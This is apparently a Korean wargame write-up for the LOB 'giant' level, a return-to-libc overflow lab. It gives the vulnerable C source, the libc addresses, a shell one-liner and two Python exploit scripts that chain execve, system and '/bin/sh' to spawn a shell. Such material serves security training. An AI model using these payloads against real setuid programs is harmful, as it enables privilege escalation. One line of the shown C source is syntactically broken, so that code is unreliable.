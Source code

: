 ```yaml
---
title: "[LOB]Level14. giant"
tags: [LOB, writeup, RTL]
author: eli_ez3r
key: 20180830
modify_date: 2018-08-30
article_header:
  type: cover
  image:
    src: 
---
```


[+ Only Execve](#){:.button.button--outline-success.button--pill}

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - giant
        - RTL2
*/

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

main(int argc, char *argv[])
{
	char buffer[40];
	FILE *fp;
	char *lib_addr, *execve_offset, *execve_addr;
	char *ret;

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

	// gain address of execve
	fp = popen("/usr/bin/ldd /home/giant/assassin | /bin/grep libc | /bin/awk '{print $4}'", "r");
	fgets(buffer, 255, fp);
	sscanf(buffer, "(%x)", &lib_addr);
	fclose(fp);

	fp = popen("/usr/bin/nm /lib/libc.so.6 | /bin/grep __execve | /bin/awk '{print $1}'", "r");
	fgets(buffer, 255, fp);
	sscanf(buffer, "%x", &execve_offset);
	fclose(fp);

	execve_addr = lib_addr + (int));
	// end

	memcpy(&ret, &(argv[1][44]), 4);
	if(ret != execve_addr)
	{
		printf("You must use execve!\n");
		exit(0);
	}

	strcpy(buffer, argv[1]);
	printf("%s\n", buffer);
}
```

-----

### 0x01. Analysis

소스코드에는 다음단계의 libc주소를 파싱해서 가져와서 lib_addr에 저장을 한다.

그리고 해당 libc에서 __execve 함수 주소의  offset을 구해서 execve_offset에 저장을 한다.

`argv[1][44]` 에 주소를  ret에 저장을 하고 해당 값이 다르면 "You must use execve!"문자열을 출력하고 프로그램을 종료된다.

ret주소에 execve주소로 Buffer Overflow를 시키고 인자값으로 system함수의 주소를 넣어준다. 

system  함수의 인자로 "/bin/sh"의 주소를 넣어주면 payload가 완성된다.



__execve : 0x400a9d48

system : 0x40058ae0

"/bin/sh" = 0x400fbff9

-----

### 0x02. Exploit

```
./giant "`python -c 'print "A"*44+"\x48\x9d\x0a\x40"+"\xe0\x8a\x05\x40"*2+"\xf9\xbf\x0f\x40"'`"
```

"\x0a"를 엔터로 인식하기 때문에 페이로드 전체를 "" 로 묶어준다.



-----



```python
import os
import struct

append = lambda x: payload + x
p32 = lambda x: struct.pack("<I", x)

target = "/home/bugbear/giant"

execve = 0x400a9d48
system = 0x40058ae0
bin_sh = 0x400fbff9

payload = "\x90"*44
payload = append(p32(execve))
payload = append(p32(system))
payload = append("\x90"*4)
payload = append(p32(bin_sh))

pid = os.fork()

if pid == 0:
        os.execv(target, (target, payload))
else:
        os.waitpid(pid, 0)
```



```python
import os
import struct

append = lambda x: payload + x
p32 = lambda x: struct.pack("<I", x)

target = "/home/bugbear/giant"

execve = 0x400a9d48
system = 0x40058ae0
bin_sh = 0x400fbff9
exit = 0x400391e0

payload = "\x90"*44
payload = append(p32(execve))
payload = append(p32(system))
payload = append(p32(exit))
payload = append(p32(bin_sh))

pid = os.fork()

if pid == 0:
        os.execv(target, (target, payload))
else:
        os.waitpid(pid, 0)
```



-----